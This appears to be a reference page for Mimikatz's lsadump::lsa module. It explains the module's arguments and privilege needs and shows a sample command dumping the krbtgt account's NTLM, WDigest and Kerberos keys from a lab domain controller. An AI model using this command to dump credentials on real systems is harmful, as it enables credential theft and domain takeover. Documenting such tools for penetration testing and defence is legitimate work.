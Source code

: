 # lsa

It extracts hashes from memory by asking the LSA server. The `patch` or `inject` takes place on the fly. It has the following command line arguments:

* `/name` or `/user` : the target user account
* `/id` : the RID (relative identifier) for the target account (500 for Administrator)
* `/patch` : Only dumps the LM and NT password hashes
* `/inject` : when run on a workstation, it will dump the LM and NT password hashes. When run on domain controller is will dump LM, NT, Wdigest, Kerberos keys and password history.

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "NTLM" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="warning" %}
This command requires elevated privileges (by previously running [privilege::debug](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : hacklab / S-1-5-21-2725560159-1428537199-2260736313

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : b5348d0a20a24a67ff544146a09cd292
    LM   :
  Hash NTLM: b5348d0a20a24a67ff544146a09cd292
    ntlm- 0: b5348d0a20a24a67ff544146a09cd292
    lm  - 0: 90e43747fb3e2459bc0fbd4c64a48ab4

 * WDigest
    01  96336fb9042f4823a864a9a9ea953d92
    02  f02b41fe320a26b54de6278bf432ea6b
    03  c4d6aef8b8382e686fdf2d8bb9ed4325
    04  96336fb9042f4823a864a9a9ea953d92
    05  f02b41fe320a26b54de6278bf432ea6b
    06  6db8e37630a2ccb50d640b7e0575a75d
    07  96336fb9042f4823a864a9a9ea953d92
    08  eca32a7c67f70dcd78116b548428644a
    09  eca32a7c67f70dcd78116b548428644a
    10  65ff3b022e3c992e06672a9013e9e375
    11  2faee2bbb7f3ce7eea4da160314992c1
    12  eca32a7c67f70dcd78116b548428644a
    13  8208f726be15c605b1d9531b3f6ceb68
    14  2faee2bbb7f3ce7eea4da160314992c1
    15  4097da3573ce0e22b396f673cb338223
    16  4097da3573ce0e22b396f673cb338223
    17  fa880afaaeb637fafed4121f58ae1c0e
    18  20ad95aaa3a05e5bb731bfefbd7ee823
    19  d46bc56e4021f6410468193dc7d05e58
    20  4d01f91984530f183381bdf5f0605f63
    21  1b415947d31439c2e59ecb8a0cd3daeb
    22  1b415947d31439c2e59ecb8a0cd3daeb
    23  0c54e140ce4d3af2150f66672338f6f3
    24  12f6af7e274f18cc1299f792f81610f8
    25  12f6af7e274f18cc1299f792f81610f8
    26  b68781315989472c4536e52359a0c999
    27  293f6790b0e67296db60f201ef15d75b
    28  18b300eeed3faeb12fe39754ec4537ef
    29  b00feb2fe6a6218228116b62612d6946

 * Kerberos
    Default Salt : HACKLAB.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 97ec73858998ae68

 * Kerberos-Newer-Keys
    Default Salt : HACKLAB.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 3ab45a59d37a5a647e0d7d9d942d0e8b77911cff0bd95b16e203cd9503ccdd96
      aes128_hmac       (4096) : 3c8fc2890213fb9be3d6fb139b1be881
      des_cbc_md5       (4096) : 97ec73858998ae68

 * NTLM-Strong-NTOWF
    Random Value : 48d7d89c1608b83db8c568251f8b810f
```
